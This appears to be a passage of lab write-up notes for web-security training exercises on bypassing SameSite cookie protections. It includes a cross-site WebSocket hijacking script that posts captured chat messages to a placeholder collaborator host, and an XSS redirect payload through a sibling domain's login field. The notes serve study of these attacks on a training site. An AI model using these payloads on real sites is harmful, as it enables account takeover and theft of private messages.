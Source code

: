 \documentclass[
  letterpaper,
]{article}
\begin{document}
\subsubsection{8. SameSite Strict bypass via sibling
domain}\label{8-samesite-strict-bypass-via-sibling-domain}

\begin{quote}
Observe there is cms-xxx.web-security-academy.net domain. Craft the next
payload and full URL-encode it.
\end{quote}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<script>
    var ws = new WebSocket('wss://your-websocket-url/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
\end{Verbatim}

\begin{quote}
Create the second payload and send it to victim:
\end{quote}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<script>
location="https://cms-xxx.web-security-academy.net/login?username=URL-ENCODED-PAYLOAD&password=peter"
</script>
\end{Verbatim}

\subsubsection{9. SameSite Lax bypass via cookie
refresh}\label{9-samesite-lax-bypass-via-cookie-refresh}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
Create CSRF PoC. Send it to victim once, wait 5-10 seconds and send it again.
\end{Verbatim}

\subsubsection{10. CSRF Refresh Password isloggedin
true}\label{10-csrf-refresh-password-isloggedin-true}

\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
\end{document}
